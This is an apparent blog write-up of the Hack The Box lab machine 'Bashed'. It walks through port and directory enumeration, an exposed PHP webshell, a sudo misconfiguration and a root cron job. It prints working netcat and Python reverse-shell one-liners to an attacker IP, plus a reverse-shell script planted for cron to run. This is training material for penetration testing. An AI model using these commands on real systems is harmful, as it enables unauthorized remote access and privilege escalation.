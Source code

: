 ```yaml
---
title: "Hack The Box - Bashed"
date: 2020-01-21
tags: [oscp, htb, linux]
collection: oscp-prep
published: true
layout: single
classes: wide
headline: "Custom webshell and bash terminal"
picture: /assets/htb-bashed/machine_info.png
---
```


![](/assets/htb-bashed/machine_info.png)

## Enumeration

Nmap scans show only port 80 is open, running Apache 2.4.18 for Ubuntu.

```
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.050s latency).
Scanned at 2020-01-20 23:22:13 EST for 51s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

The home page talks about a PHP webshell called `bashed` that the owner created, on this very site. Further investigation with Gobuster shows the below directories.

```
/about.html (Status: 200) [Size: 8190]
/config.php (Status: 200) [Size: 0]
/contact.html (Status: 200) [Size: 7802]
/css (Status: 301) [Size: 308]
/dev (Status: 301) [Size: 308]
/fonts (Status: 301) [Size: 310]
/images (Status: 301) [Size: 311]
/index.html (Status: 200) [Size: 7742]
/index.html (Status: 200) [Size: 7742]
/js (Status: 301) [Size: 307]
/php (Status: 301) [Size: 308]
/single.html (Status: 200) [Size: 7476]
/uploads (Status: 301) [Size: 312]
```

---

## Initial Shell

### Enumerate with web shell

Navigating to the `/dev` direcotry, it brings us to a directory listing, which includes a copy of `phpbash.php`. Clicking on `phpbash.php` immediatly places us into the `bashed` webshell mentioned on the homepage. With the `id` and `whoami` commands, we can see that we're running as `www-data`.

![](/assets/htb-bashed/phpbash_initialshell.png)

Some further poking with `uname -a` and `cat /etc/issue` shows that we're on a Ubuntu 16.04 system, running kernel version 4.4.0.

![](/assets/htb-bashed/wwwdata_enum_version.png)

We can confirm with `which nc` that netcat is already installed, which will help with any reverse shells going forward. We can also see a list of user directories with `ls -la /home`.

![](/assets/htb-bashed/wwwdata_nc_homedirs.png)

Besides the obvious `arrexel` username that we assumed from the homepage, there appears to be another user called `scriptmanager`. Both directories look to be readable by `www-data`. Looking in the `/home/scriptmanager` directory shows it's empty, and none of the files are readbale by our current user. We can however navigate to `/home/arrexel` and read `user.txt`.

![](/assets/htb-bashed/user_proof.png)

---

## Privlege Escalation

### Sudoers file

At this point, it makes sense to check if maybe `www-data` has more permissions then it seems. We can use `sudo -l` to see if there are any entires in the sudoers file, which might allow us access as a different user.

![](/assets/htb-bashed/wwwdata_sudoers.png)

Looks like `www-data` can use `sudo` to run any command as `scriptmanager` with no password needed.

### Upgrading the shell

When we try to run anything as `sudo` however, we get a message that *no tty present*. This is common in webshells. It also means it's time to upgrade our shell with netcat.

We first need to start a listener on our machine with `nc -lvnp 7500`. Once that's setup, we can run `/bin/sh | nc 10.10.14.12 7500` on the webshell to kick off the reverse shell.

> NOTE: Although `nc` is installed, it's the OpenBSD version, which does not include the `-e` option to execute a program on conneciton. Instead, we have to pipe `/bin/sh` into the `nc ` command to get the shell.

![](/assets/htb-bashed/revshell_failed.png)

Looks like this is very unstable, and dies right away. Let's try a Python reverse shell with the below command. Don't forget to restart your `nc` listener as well.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",7500));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/assets/htb-bashed/python_revshell.png)

It works! Now we have to upgrade the shell to properly run the `sudo` commands we need. We can upgrade to a good `bash` shell with `python -c 'import pty;pty.spawn("/bin/bash")'`. Once that shell is spawned, we need to issue some commands to get a good TTY shell.

```shell
CTRL-Z # Sends the netcat session to the background
stty raw -echo # Properly sets terminal to pass CTRL-* commands to the netcat session
fg # Brings the netcat sesison back up
```

![](/assets/htb-bashed/upgraded_python_shell.png)

### Upgrading the shell (again!)

Now that we have access to a TTY shell, we can confirm that using `sudo -u scriptmanager` before a command will run it as `scriptmanager` without the need for a password. HOwever, this can get tiresome really fast. To bypass this, we can simply run `sudo -u scriptmanager /bin/bash`, which will open a `bash` shell as `scriptmanager`.

### Poking the scripts folder

Now that we're finally in a solid shell as `scriptmanager`, we can go poking around.

Running `ls -la /` shows a directory called `/scripts` at the drive root, and it's owned by `scriptmanager`.

![](/assets/htb-bashed/scripts_directory.png)

Inside `/scripts` are two files, `test.py` and `test.txt`. When we read `test.py`, we can see that it simply reads the content of `test.txt`.

![](/assets/htb-bashed/scripts_dir_contents.png)

We can modify the file to test it out with a `ping` back to our machine.

```shell
echo "import os" >> test.py
echo "ip = '10.10.14.12'" >> test.py
echo "command = os.system('ping -c 5 ' + ip)" >> test.py
```

This adds the lines to the existing `test.py` scirpt. We can see the new file below:

```shell
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
import os
ip = '10.10.14.12'
command = os.system('ping -c 5 ' + ip)
```

When we run the script with `python test.py`, we can see the pings going thorugh. We can test this on our end with a `tcpdump` listener using `tcpdump -i tun0 icmp`.

![](/assets/htb-bashed/tcpdump_initial.png)

### Adding our own exploit

In the process of testing, I noticed immediatly that the 5 pings from the `test.py` script were followed up by another 5 pings within the time it took me to take a screenshot. This leads me to beleive that there must be a cronjob running to execute scripts in the `/scripts` folder. If this is the case, then we have our path to `root`.

We can make a simple python script that will initiate a reverse shell when run, using the below command:

```shell
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",7700));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > root_shell.py
```

We setup the listener with `nc -lvnp 7700` and wait. Sure enough, we get a shell back after a short while.

![](/assets/htb-bashed/root_shell.png)

We got `root`! Let's grab the flag.

![](/assets/htb-bashed/root_proof.png)

When we check the `cron` list for `root`, we can see that it was in fact running every `*.py` script in `/scripts`.

![](/assets/htb-bashed/root_cron.png)
